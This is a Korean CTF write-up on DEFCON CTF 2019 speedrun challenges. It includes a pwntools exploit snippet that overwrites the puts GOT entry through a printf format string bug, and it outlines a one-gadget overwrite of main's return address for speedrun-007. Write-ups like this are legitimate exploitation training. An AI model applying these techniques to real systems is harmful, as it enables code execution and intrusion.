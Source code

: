 너무 멍청하게 풀어서 대회 당시에 4시간이나 삽질을 한 문제이다. `printf(&buf)`에서 `FSB`가 터지는데, printf로 출력할 때 `\x00`을 만나면 거기까지만 출력해준다. 그런데 여기서 멍청하게 생각을 못한게 어짜피 read로 읽어서 스택에는 데이터가 들어간다는것을 잊고있었다.(아오)
그래서 그냥 스택에 `got`를 적당한것(puts GOT)를 넣고 다시 `FSB`를 읽으켜서 `GOT`를 원샷가젯으로 덮어주면 간단하다. 이걸 못맞추다니;;;
근데 끝나고 풀어보려고하니까 데프콘서버쪽에 바이너리가 바뀌어서 익스가 안됨 ㅡㅡ; 서버쪽에는 puts GOT가 0x601020이던데, 뭔일인지...

참고로 `FSB` payload는 pwntool의 fmtstr_payload를 쓰면 빠르게 할 수 있다. 물론 이 함수가 조금 멍청해서 target_address를 payload앞에 집어넣어서 64bit환경일 경우 printf에서 `\x00`으로 진작에 끊겨버리므로 아래와 같은 트릭을 써서 따로 계산해주는게 낫다.

```python
# make fsb payload
context.clear(arch = 'amd64')
fsb_payload = fmtstr_payload(30, writes={print_got:0x40069D}, numbwritten=(-64+24), write_size='byte')

# this function create stupid string. start payload null(\x00)
# null(\x00) is string end, printf is end. so addresses need to go to the payload end
# so,  numbwritten=(-64+24) is alreay payload(24) + got_address(-8*8=-64)
fsb_payload = fsb_payload[64:]			

# leak _IO_stdfile_1_lock
# stage 1. puts GOT overwrite FSB vuln function
payload = "%122$16lx" 		# start offset 6
payload += "A"*8
payload += fsb_payload
payload += ((8*24)-len(payload))*"A"	# padding 30-6 offset (target_offset - strat_offset)
payload += p64(print_got)
payload += p64(print_got + 1)
payload += p64(print_got + 2)
payload += p64(print_got + 3)
payload += p64(print_got + 4)
payload += p64(print_got + 5)
payload += p64(print_got + 6)
payload += p64(print_got + 6)
payload += p64(print_got + 7)
```

대략 설명하면 `30`오프셋부터 `print_got`가 나온다고보고 numbwritten은 기존 페이로드에 먼저쓰인 `16+8`바이트에 쓸모없는 `64`를 뺀 값을 넣고, `byte`단위의 `FSB` payload이므로 8개의 address를 맨뒤에 넣어준다. 중간에 중요한 fsb다음에는 `30`오프셋까지 패딩해주면된다.


[attack_speedrun005.py](https://github.com/wotmd/CTF_Exploit/blob/master/DEFCON_CTF_2019/speedrun005/attack_speedrun005.py)
　
　

　
## speedrun-007
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```
`OOB`라고 해야할까. 암튼 `Relative write`가 가능하다.
`0x638`을 오프셋으로하면 `main`함수의 ret(`__libc_start_main+231`)를 덮어쓸 수 있는데, 이것을 `onegadget`으로 덮으면 main에서 리턴하면 쉘이 따진다.
